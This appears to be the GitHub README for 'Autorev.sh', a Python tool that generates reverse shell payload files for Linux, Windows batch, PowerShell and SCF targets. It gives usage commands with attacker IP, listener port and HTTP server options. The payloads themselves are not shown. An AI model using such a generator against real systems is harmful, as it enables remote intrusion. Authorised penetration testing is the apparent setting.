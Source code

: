 <div align="center">

# Autorev.sh
  
![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

# Usage

## Generating linux

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

## Generating Windows ps1

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

### Generating SCF

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) 

> All Usage commands will be also generated and print according to the given switches

## HELP Menu

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
